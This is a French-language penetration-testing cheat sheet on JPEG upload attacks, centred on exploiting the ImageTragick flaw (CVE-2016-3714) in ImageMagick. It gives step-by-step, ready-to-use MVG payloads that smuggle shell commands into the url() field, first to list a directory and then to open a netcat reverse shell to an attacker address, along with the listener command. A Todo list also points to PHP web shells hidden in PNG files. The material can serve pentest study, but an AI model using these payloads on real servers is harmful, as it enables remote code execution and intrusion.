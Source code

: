 # JPEG

**Facteur de risque** : RCE

**Extensions** : `.jpg`, `.jpeg`

**Type MIME** : image/jpeg

**Description** : **Joint Photographic Experts Group** ou **JPG** est un format d'image

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**rce.jpg**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
- ImageTragick : 
  - https://imagetragick.com

## Todo

- Embedding PHP Shell on PNG : https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
- Upload .jpg file containing a Flash object - victim experiences Cross-site Content Hijacking.
  - [Even uploading a JPG file can lead to Cross-Site Content Hijacking (client-side attack)! | Soroush Dalili (@irsdl) &#8211; سروش دلیلی](https://soroush.secproject.com/blog/2014/05/even-uploading-a-jpg-file-can-lead-to-cross-domain-data-hijacking-client-side-attack/)
